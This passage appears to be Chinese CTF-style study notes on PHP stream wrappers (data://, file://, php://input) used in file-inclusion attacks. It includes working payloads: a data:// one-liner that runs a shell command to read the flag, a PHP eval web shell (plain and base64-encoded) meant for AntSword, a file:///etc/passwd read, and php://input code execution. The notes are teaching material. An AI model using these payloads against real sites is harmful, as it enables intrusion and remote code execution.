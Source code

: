 `data://text/plain;base64,`

data:资源类型(MIME类型);编码,内容

举例：

```
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=
```

#### 类型扩展

```
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

***

### file://

用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响
file://协议主要用于访问文件(绝对路径、相对路径以及网络路径)
比如：`http://www.xx.com?file=file:///etc/passsword`

***

### php://

在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用
php://作用为访问输入输出流

***

### php://input

php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。

例如：
`http://127.0.0.1/cmd.php?cmd=php://input`
POST数据：`<?php phpinfo()?>`
注意：
当`enctype="multipart/form-data"`的时候` php://input` 是无效的
